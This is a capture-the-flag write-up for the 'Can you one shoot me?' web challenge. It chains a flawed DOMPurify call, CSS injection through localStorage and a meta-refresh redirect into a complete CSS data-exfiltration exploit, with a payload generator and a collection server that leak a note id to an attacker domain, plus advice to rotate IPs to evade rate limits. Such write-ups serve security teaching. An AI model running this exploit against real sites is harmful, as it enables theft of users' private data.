






Overview
Can you one shoot me?
Solves: 10

1. General Analysis
- The application is written in Python and uses Flask.
- Each time the bot is called, it will create an account with random credentials, log in, create a new note with the target flag in its content, and then visit our note.
- The endpoint to display a note
/display/<string:doc_id>only requires that we’re logged in, but as long as we know its id we can view any note.
2. Broken DOMPurify Sanitization
The file src/app/templates/workspace/display.html contains the following script.
<script src="{{ url_for('static', filename='js/options.js') }}"></script>
<script nonce="{{ nonce }}">
if (options.user_styling) {
const theme = document.createElement('style');
const hidden = document.getElementById('document-body-hidden');
const body = document.getElementById('document-body');
// disable tag id
body.innerHTML = DOMPurify.sanitize(body.textContent,{ RETURN_DOM: true, ALLOWED_TAGS: ['class', 'style'] }).ownerDocument.documentElement.innerHTML;
theme.textContent = document.getElementById('user-theme-styles').textContent;
theme.nonce = '{{ nonce }}';
document.head.appendChild(theme);
localStorage.setItem('user_theme', theme.textContent);
}
</script>
The comment // disable tag id is bullshit. There’s nothing in the code that disables the tag id. The part ALLOWED_TAGS: ['class', 'style'] confuses HTML tags with attributes. Furthermore, our input to be sanitized is taken from this div:
<div class="document-body" id="document-body">
<!-- hidden tag -->
<p id="document-body-hidden">{{ document.body }}</p>
</div>
There’s a serious bug in this code. The sanitization is called on body.textContent, which returns the concatenation of the textContent of every child node instead of inner HTML. For example, if we create the following note:

This is the result of body.innerText:

And as we can see, nothing got sanitized by DOMPurify.

3. Style Manipulation
The script takes the textContent of the element with id user-theme-styles, which doesn’t exist on the page, and sets it as user_theme in localStorage.
theme.textContent = document.getElementById('user-theme-styles').textContent;
theme.nonce = '{{ nonce }}';
document.head.appendChild(theme);
localStorage.setItem('user_theme', theme.textContent);
In src/app/templates/base.html, user_theme from localStorage is used to fill in the content of a style tag.
<script nonce="{{ nonce }}">
const theme = document.createElement('style');
theme.textContent = localStorage.getItem('user_theme') || "";
theme.nonce = '{{ nonce }}';
document.head.appendChild(theme);
</script>
Based on these observations, we can control the styles on any page on the website after a redirect if we first create an element with the id user-theme-styles in a note. We can achieve the redirect easily by adding a meta tag to a note.
4. CSS Exfil via 2 Characters Permutations
The most interesting path we can redirect the bot to is /workspace/home since it contains the flag note id in its HTML.

The pages are secured by the following CSP.
@application.after_request
def apply_security_headers(response):
security_token = getattr(g, 'nonce', '')
response.headers['X-Content-Type-Options'] = 'nosniff'
response.headers['X-XSS-Protection'] = '1; mode=block'
response.headers['Content-Security-Policy'] = (
f"default-src 'self'; "
f"script-src 'self' 'nonce-{security_token}'; "
f"style-src 'self' 'nonce-{security_token}'; "
f"img-src *; "
f"font-src 'self'; "
f"connect-src 'self'; "
)
response.headers['Referrer-Policy'] = 'strict-origin-when-cross-origin'
response.headers['Permissions-Policy'] = 'geolocation=(), microphone=(), camera=()'
return response
We’re very limited except for images, which we can request from any origin. We’re gonna base our exfiltration exploit on 0CTF 2023 newdiary writeup by huli but instead of generating all permutations of three characters from [0-9][a-f] we’re going to do it with just two. Here’s the script to generate our note payload:
import itertools
S = 'body > div > div.grid > div:nth-child(1) > div.document-actions > a:nth-child(1)'
# TODO replace with your domain
U = 'http://YOUR_DOMAIN/leak?q='
C = '0123456789abcdef'
def generate():
bridge = [f'display/{c}' for c in C]
bigrams = [''.join(p) for p in itertools.product(C, repeat=2)]
vars_list = []
print('<div id="user-theme-styles">', end='')
for b in bridge:
vn = f"b{b[-1]}"
vars_list.append(vn)
print(f'{S}[href*="{b}"]{{--{vn}:url({U}{b})}}', end='')
for bi in bigrams:
vn = f"v{bi}"
vars_list.append(vn)
print(f'{S}[href*="{bi}"]{{--{vn}:url({U}{bi})}}', end='')
fade = "none"
for v in reversed(vars_list):
fade = f"-webkit-cross-fade(var(--{v},none),{fade},50%)"
print(f'{S}{{display:block!important;background-image:{fade}}}', end='')
print('</div><meta http-equiv="refresh" content="0; url=/workspace/home">')
if __name__ == "__main__":
generate()
On top of generating the two-character permutations, we additionally generate display/{c} for each character that will allow us to determine what character the flag note id starts with.
The server script is the following:
from flask import Flask, request
import sys
sys.setrecursionlimit(2000)
app = Flask(__name__)
ID_LENGTH = 25
leaked_bigrams = set()
start_char = None
def find_all_ids(current_str, remaining_chunks):
if len(current_str) == ID_LENGTH:
if not remaining_chunks:
return [current_str]
return []
last_char = current_str[-1]
results = []
options = [c for c in remaining_chunks if c[0] == last_char]
for chunk in options:
new_remaining = remaining_chunks.copy()
new_remaining.remove(chunk)
found = find_all_ids(current_str + chunk[1], new_remaining)
results.extend(found)
return results
@app.route('/leak')
def leak():
global start_char
q = request.args.get('q')
if not q: return ""
print(f"[+] Received: {q}")
if q.startswith("display/"):
start_char = q[-1]
print(f"[*] ANCHOR: {start_char}")
elif len(q) == 2:
leaked_bigrams.add(q)
return ""
@app.route('/solve')
def solve():
if not start_char:
return "<h3>Missing anchor (display/x)</h3>"
hex_chars = "0123456789abcdef"
clean_pool = [c for c in leaked_bigrams if all(x in hex_chars for x in c)]
path_noise = ['ac', 'ce', 'ed', 'de']
clean_pool = [c for c in clean_pool if c not in path_noise]
print(f"[*] Solving for all paths. Pool: {len(clean_pool)} unique bigrams.")
solutions = find_all_ids(start_char, clean_pool)
html = f"<h2>Search Results</h2><p>Chunks: {len(clean_pool)} | Anchor: {start_char}</p><hr>"
if solutions:
html += f"<h3>{len(solutions)} Possible ID(s) Found:</h3><ul>"
for s in set(solutions):
html += f"{s}\n"
html += "</ul>"
else:
html += "<p style='color:red;'>No valid path found that uses all leaked chunks. Check your logs for missed bigrams.</p>"
html += f"<p><b>Chunks currently held:</b> {sorted(clean_pool)}</p>"
return html
if __name__ == '__main__':
app.run(host='0.0.0.0', port=80)
Since we can keep calling the bot repeatedly, and for each call, it will generate a new note with a random id, we opt for these two constraints to simplify our solution:
- Each pair of two adjacent characters in the note id must be unique (this will result in 24 unique pairs since the note id length is 25),
- No pair of two adjacent characters in the note id can be
['ac', 'ce', 'ed', 'de'], because they will always come from the path prefix/workspace/display.
We might have to restart the server and submit a report to the bot a few times before we get a note id that fulfills the aforementioned criteria.
5. Exploitation Example
We generate the note payload and create a note.

We spin up the server.

We copy the id of our newly generated note.

We report it to the bot.

After the bot visit, we send a request to /solve on our server.
curl localhost/solve
<h2>Search Results</h2><p>Chunks: 23 | Anchor: 7</p><hr><p style='color:red;'>No valid path found that uses all leaked chunks. Check your logs for missed bigrams.</p><p><b>Chunks currently held:</b> ['00', '03', '0a', '12', '18', '20', '29', '2b', '36', '6b', '6d', '71', '82', '8c', '90', '96', 'ab', 'af', 'b0', 'b2', 'b8', 'c9', 'd1']</p>
We didn’t get chunks that met our criteria specified earlier. We restart the server and report our note again until we succeed (it might take some tries).
curl localhost/solve
<h2>Search Results</h2><p>Chunks: 24 | Anchor: 6</p><hr><h3>2112 Possible ID(s) Found:</h3><ul>6ca1006d24011bd7644b95f49
6ca11001bd764406d24b95f49
6d76ca1b95f44bd2400110649
6ca1006d2495f44bd764011b9
6d76495f4bd244006ca1011b9
...
6d24b95f40011bd76ca106449
6ca11bd24400106d76495f4b9
</ul>
We copy all of the ids (2111 in this case) and attempt to display a note using each one of them.

We find the correct id and get the flag.

6. Final Notes
I didn’t notice at first that there’s a 5 requests per 30 mins or so rate limit on remote; you might have to switch to different IPs for the report.
XOXO,
VXXDXX